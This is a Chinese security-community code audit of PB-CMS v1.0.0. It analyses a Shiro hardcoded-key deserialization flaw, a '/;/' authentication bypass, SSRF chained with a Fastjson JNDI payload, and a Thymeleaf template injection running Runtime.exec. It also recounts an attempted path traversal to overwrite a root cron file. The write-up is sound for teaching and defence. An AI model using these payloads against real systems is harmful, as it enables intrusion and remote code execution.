

# PB-CMS v1.0.0 代码审计 - 先知社区

PB-CMS v1.0.0 代码审计

- - -

## 0x01 前言

本次审计的系统是 PB-CMS（瀑布内容管理系统），涉及到的技术栈有 SpringBoot、Apache Shiro、Mybatis Plus、Thymeleaf 等等，在它的 v1.0.0 版本中存在一些经典的漏洞，`Yu9`相信刚开始学习 java 代码审计的师傅通过审计该 cms 可以收获不少知识。

## 0x02 环境搭建

项目地址：[https://gitee.com/LinZhaoguan/pb-cms/tree/v1.0.0/](https://gitee.com/LinZhaoguan/pb-cms/tree/v1.0.0/)

## 0x03 声明

此分享主要用于交流学习，请勿用于非法用途，否则一切后果自付。

## 0x04 shiro 反序列化漏洞

### 漏洞分析

在 pom.xml 文件中可以看到 shiro 的版本是`1.4.1`是存在反序列化漏洞的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226183832-2fe831ae-d493-1.png)

### 漏洞复现

拿出我们的 shiro 一把梭工具，工具下载地址：[https://github.com/j1anFen/shiro\_attack](https://github.com/j1anFen/shiro_attack)

爆秘钥以及利用链

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226183902-41ee3272-d493-1.png)

执行命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226183930-527c0cfe-d493-1.png)

### 代码审计

最开始看到 shiro 的版本是 1.4.1 最先想到的就是 shiro720，因为 shiro550 的利用版本要 < 1.2.4。

但是在在 Shiro 反序列化漏洞修复的过程中，如果仅进行 Shiro 的版本升级，而没有重新生成密钥，那么 AES 加密的默认密钥扔硬编码在代码里，仍然会存在反序列化风险。

所以猜测该 cms 对 cookie 加密仍然使用的是`硬编码`

在看了 shiro 的配置文件之后，发现确实如此！

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226183951-5f01fe70-d493-1.png)

## 0x05 shiro 权限绕过

### 漏洞分析

既然 shiro 的版本是`1.4.1`，那肯定也存在权限绕过漏洞。

例如：CVE-2020-11989

Apache Shiro 1.5.3 之前的版本中，当将 Apache Shiro 与 Spring 动态控制器一起使用时，精心编制的请求可能会导致绕过身份验证。

漏洞的主要原因就是 shiro 和 spring 对路径的解析有差异！

### 漏洞复现

直接访问`/cms/admin`，会跳转让我们先登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184020-70152e4e-d493-1.png)

使用`/;/cms/admin`绕过

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184108-8cacb5a4-d493-1.png)

### 代码审计

**1）shiro**

把断点下在`org.apache.shiro.web.filter.mgt.PathMatchingFilterChainResolver#getChain()`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184143-a1ee08e6-d493-1.png)

通过`this.getPathWithinApplication(request)`来获取 uri。

一直 alt+shift+f7，我们可以跟进到`org.apache.shiro.web.util.WebUtils#getPathWithinApplication`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184449-10b9f190-d494-1.png)

具体获取 uri 的逻辑就在`getRequestUri(request)`中，跟进之后会发现，在返回 uri 前通过`decodeAndCleanUriString`方法做了一些处理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184527-2734e83a-d494-1.png)

这段代码的作用是对 URI 进行处理，截取第一个分号之前的部分并返回

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184550-34d07a5e-d494-1.png)

所以最终我们获取到的就是`/`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184616-44541ada-d494-1.png)

最终和 shiro 过滤器中的`"/", "anon"`匹配

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184640-52dfe278-d494-1.png)

**2）spring**

断点下载`org.springframework.web.util.UrlPathHelper#getPathWithinServletMapping`

通过`getPathWithinApplication`来获取 uri

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184733-728ea6b8-d494-1.png)

跟进之后跟 shiro 的分析过程类似，跟进之后可以看到`this.getRequestUri(request)`中实现了获取 uri 的具体逻辑

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184753-7e415c58-d494-1.png)

继续跟进，可以看到返回前使用`decodeAndCleanUriString`方法做了处理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184812-89ce81b8-d494-1.png)

跟进，第一步过滤了`;`，第二部过滤了重复的`/`，最终得到`/cms/admin/`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184832-95c7ca24-d494-1.png)

**3）总结**

shiro 对`/;/cms/admin/`处理后得到`/`绕过了权限认证

spring 对`/;/cms/admin/`处理后得到`/cms/admin/`正常访问

## 0x06 Ssrf 结合 Fastjson

### 漏洞分析

作者可能是不小心多打了一个点，导致管理员少了一个权限。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184859-a5848e2a-d494-1.png)

到数据库中把这个点删了，然后重启，重新登录。之后再看`文章列表`就会发现多了一个批量推送的功能！

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226190610-0c345568-d497-1.png)

这个漏洞是通过自动化工具扫出来的，不然还真发现不了。

就是 Ssrf，但只支持 http 协议，并且无回显

不过后貌似可以结合 fastjson 打一下。

fastjson 版本是 1.2.66，并且存在 shiro-core 依赖，所以有机会利用一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226190629-179dc11e-d497-1.png)

### 漏洞复现

**1）ssrf**

首先使用 yakit 的 dnslog 生成一个域名

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226190701-2a773b6c-d497-1.png)

到网站管理 -> 基础信息出，替换百度推送地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226190721-368716d4-d497-1.png)

然后到文章列表处点批量推送

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226190741-422f4f10-d497-1.png)

成功触发

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226190757-4bc4ef76-d497-1.png)

**2）fastjson**

怎么说呢，它这环境中 fastjson 是利用不了的。因为在 fastjson1.2.66 环境下，autotypesupport 属性为 true 才可使用，但在 1.2.25 版本以后该属性默认为 false

为了呈现一下组合漏洞的效果，咱手动把`autotypesupport`设置为 true

把`com.puboot.module.admin.controller.ArticleController#pushBatch`修改一下：

```plain
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
Object baiduPushResVo = JSON.parseObject(PushArticleUtil.postBaidu(url, urls));
if (1==1)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226190828-5e5d859e-d497-1.png)

还有一个地方要改一下，不然会报错！

在`com.puboot.common.util.PushArticleUtil#postBaidu`。这中间一些写入的代码删掉，感觉是作者设计的问题！

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226190852-6cf908da-d497-1.png)

业务逻辑应该是要*允许写入输出*，但作者并没有设置。所以会报错

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226190911-7859c07a-d497-1.png)

先删掉好了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191105-bbccee54-d497-1.png)

现在环境就 OK 了，我们使用 yakit 起一个`ldap`服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191124-c7306bcc-d497-1.png)

接着 vps 起一个 web 服务返回 payload

```plain
{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory", "jndiNames":["ldap://127.0.0.1:8085/uRKFmZXL"], "Realms":[""]}
```

可以用 python，我是直接用的宝塔

接着就百度推送地址改成我们 vps 地址就 ok

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191148-d5d959ea-d497-1.png)

点击推送，弹出计算机

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191212-e40b23f4-d497-1.png)

总的来说呢，fastjson 是利用不了的。但觉得 ssrf+fastjson 挺有意思就改了一下

### 代码审计

在`com.puboot.module.admin.controller.ArticleController#pushBatch`，下突出下个断点，点击推送

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191238-f3889afa-d497-1.png)

可以看到先和我们之前设置的百度推送地址建立连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191258-ff223cd6-d497-1.png)

中间有一块应该是推送的代码，就之前删除那部分（说实话没太理解），然后就是获取响应的内容返回

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191316-09fcd38c-d498-1.png)

之后就触发 fastjson 漏洞

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191333-14378022-d498-1.png)

## 0x07 Thymeleaf 模板注入漏洞

### 漏洞分析

能引起 Thymeleaf 模板注入漏洞的就两种情况：

1）在查找模板中，引用了用户输入的内容

```plain
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return  lang ; //template path is tainted
}
```

2）controller 无返回值，则以 GetMapping 的路由为视图名称

```plain
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
}
```

所以我们在寻找 Thymeleaf 模板注入漏洞时，重点关注一下以上两种情况，看看有没有查找模版时`视图名称`用户可控

### 漏洞复现

在主题管理功能处新增主题，然后在主题名称填入我们的 payload

```plain
__${T(Runtime).getRuntime().exec("calc")}__::.x
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226191354-20a8f3ae-d498-1.png)

之后我们点启用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184343-e913715c-d493-1.png)

访问网站首页即可触发：[http://localhost:8080/cms/](http://localhost:8080/cms/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184256-cd90c7d6-d493-1.gif)

### 代码审计

可以看到，在访问网站首页时，通过`bizThemeService.selectCurrent().getName()`可以获取到我们之前设置的主题的名称

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226184211-b2c4af58-d493-1.png)

## 0x08 后话

这块其实还有一个文件上传的漏洞，详情可以看看这位师傅提的：[https://gitee.com/LinZhaoguan/pb-cms/issues/I8T4WR](https://gitee.com/LinZhaoguan/pb-cms/issues/I8T4WR)

它未过滤后缀并且可以目录遍历，本来是想着覆盖计划任务反弹 shell，但是深入后发现，作者在对上传文件进行了一些处理，结合时间戳重新对文件进行了命名。

逻辑就是以最后一个点为分割，在中间拼接当前时间戳！若上传文件`as.exe`，处理后就是`as_1708639915916.exe`

在覆盖计划任务，抓包后修改文件名为`../../var/spool/cron/root`，最终得路径就是`\自己设置的存图片路径\20240223\../._1708639915916../../var/spool/cron/root`

这就导致不能覆盖计划任务了，如何有师傅有绕过思路，一块交流交流！
